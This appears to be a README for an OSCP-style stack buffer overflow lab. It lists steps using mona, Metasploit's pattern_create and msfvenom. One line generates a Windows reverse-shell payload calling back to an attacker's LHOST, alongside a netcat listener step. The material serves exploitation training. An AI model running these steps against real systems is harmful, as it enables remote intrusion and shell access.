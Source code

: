 # How to use it

1 - Mona Configuration
`!mona config -set workingfolder c:\mona\%p` (Configure mona)

2 - Fuzzer payload

3 - Crash Replication & Controlling EIP
`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600` (Change the -l value to the value that crashed the server)
Exploit payload

4 - Search Offset
`!mona findmsp -distance 600` (Change the -l value to the value that crashed the server to find the EIP)
Then, update the exploit and set the offset variable. to the previews value and set retn to "BBBB"

5 - Finding bad characters
`!mona bytearray -b "\x00"`
badcharacter payload
update the payload
`!mona compare -f C:\mona\oscp\bytearray.bin -a <address>` (Address EIP)
and try to find the badcharacters

6 - Find a Jump Point
`!mona jmp -r esp -cpb "\x00"`
Find a jump point (Search de addres to set on the exploit in the part of "retn")

7 - Prepend NOPs
`padding = "\x90" * 16`

8 - Create Shell
`msfvenom -p windows/shell_reverse_tcp LHOST=tun0IPHERE LPORT=4444 EXITFUNC=thread -b "\x00" -f c`

9 - Netcat listener

10 - exploit!
